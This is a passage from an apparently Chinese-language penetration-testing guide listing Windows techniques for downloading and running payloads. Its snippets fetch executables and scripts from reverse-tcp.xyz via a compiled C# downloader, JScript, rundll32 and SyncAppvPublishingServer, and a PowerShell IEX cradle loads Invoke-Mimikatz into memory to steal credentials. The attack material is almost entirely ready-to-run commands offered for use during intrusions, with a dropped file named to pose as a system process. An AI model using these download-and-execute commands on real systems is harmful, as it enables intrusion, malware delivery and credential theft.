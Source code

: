```powershell
c:\windows\microsoft.net\framework\v3.5\csc /out:c:\windows\temp\dl.exe c:\windws\temp\dl.cs
c:\windows\temp\dl.exe http://reverse-tcp.xyz/svhost.exe c:\windows\temp\svhost.exe
```

#### JScript

以下就是一个js的downloader，和vbs的一样可以直接echo写入服务器执行

```powershell
varObject = WScript.CreateObject("MSXML2.XMLHTTP");Object.open("GET","http://reverse-tcp.xyz/test.exe",false);Object.send();if(Object.Status == 200){varStream = WScript.CreateObject("ADODB.Stream");Stream.Open();Stream.Type = 1;Stream.Write(Object.ResponseBody);Stream.SaveToFile("E:\\test\\ssss2.exe", 2);Stream.Close();}
```

也可以配合rundll32一句话完成下载

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();Object=new%20ActiveXObject("Microsoft.XMLHTTP");Object.open("GET","http://reverse-tcp.xyz/test.exe",false);Object.send();if(Object.Status==200){Stream=new%20ActiveXObject("ADODB.Stream");Stream.Open();Stream.Type=1;Stream.Write(Object.ResponseBody);Stream.SaveToFile("E:\\test\\ssss2.exe",2);Stream.Close();}
```

#### CURL/WGET

Windows本身是没有curl和wget的，但是在一些其他软件当中会集成curl.exe，比如说Cmder当中，如果在渗透过程当中遇到了Cmder，那就完全可以通过curl来完成下载操作。

### 执行方法

#### Powershell

对于某些无文件渗透场景，powershell可以直接加载到内存执行是很常见的

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.c
om/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
powershell -exec bypass -c "iwr https://gist.githubusercontent.com/Urahara3389/d83b6f9cce
df9aa53f70d987360dbc0e/raw/53ad790f87e0fd2c9449d5359358cd251c39297a/calc.ps1|iex"
Get-Content script.ps1 | iex
```

#### SyncAppvPublishingServer

除了powershell.exe外，win10以上系统可以使用SyncAppvPublishingServer.exe来执行powershell

```powershell
SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://reverse-tcp.xyz/script.ps1') | IEX
```

#### Runscripthelper

runscripthelper.exe是在Windows 10 RS3中引入的，它所做的事情是从一个特定的目录读取PowerShell代码并执行这些代码。

```powershell
runscripthelper.exe surfacecheck \\?\C:\Test\Microsoft\Diagnosis\scripts\test.txt C:\Test
```
